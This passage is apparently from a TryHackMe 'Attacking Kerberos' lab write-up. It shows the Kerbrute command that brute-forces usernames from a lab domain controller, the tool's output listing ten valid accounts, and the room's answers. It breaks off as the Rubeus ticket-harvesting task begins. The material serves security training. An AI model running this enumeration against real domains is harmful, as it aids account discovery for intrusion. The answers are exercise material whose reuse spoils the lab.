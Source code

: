 1. cd into the directory that you put Kerbrute
2. Download the wordlist to enumerate with here
3. ./kerbrute userenum --dc CONTROLLER.local -d CONTROLLER.local User.txt - This will brute force user accounts from a domain controller using a supplied wordlist

![](https://i.imgur.com/fSDrhyb.png)

Now enumerate on your own and find the rest of the users and more importantly service accounts.

```
kali@kali:~/CTFs/tryhackme/Attacking Kerberos$ sudo /opt/kerbrute/dist/kerbrute_linux_amd64 userenum --dc CONTROLLER.local -d CONTROLLER.local User.txt

    __             __               __
   / /_____  _____/ /_  _______  __/ /____
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/

Version: dev (1ad284a) - 11/24/20 - Ronnie Flathers @ropnop

2020/11/24 19:04:20 >  Using KDC(s):
2020/11/24 19:04:20 >   CONTROLLER.local:88

2020/11/24 19:04:20 >  [+] VALID USERNAME:       administrator@CONTROLLER.local
2020/11/24 19:04:20 >  [+] VALID USERNAME:       admin1@CONTROLLER.local
2020/11/24 19:04:20 >  [+] VALID USERNAME:       admin2@CONTROLLER.local
2020/11/24 19:04:21 >  [+] VALID USERNAME:       httpservice@CONTROLLER.local
2020/11/24 19:04:21 >  [+] VALID USERNAME:       machine1@CONTROLLER.local
2020/11/24 19:04:21 >  [+] VALID USERNAME:       machine2@CONTROLLER.local
2020/11/24 19:04:21 >  [+] VALID USERNAME:       sqlservice@CONTROLLER.local
2020/11/24 19:04:21 >  [+] VALID USERNAME:       user1@CONTROLLER.local
2020/11/24 19:04:21 >  [+] VALID USERNAME:       user2@CONTROLLER.local
2020/11/24 19:04:21 >  [+] VALID USERNAME:       user3@CONTROLLER.local
2020/11/24 19:04:21 >  Done! Tested 100 usernames (10 valid) in 0.406 seconds
```

How many total users do we enumerate?

`10`

What is the SQL service account name?

`sqlservice`

What is the second "machine" account name?

`machine2`

What is the third "user" account name?

`user3`

## Task 3 Harvesting & Brute-Forcing Tickets w/ Rubeus

To start this task you will need to RDP or SSH into the machine your credentials are -

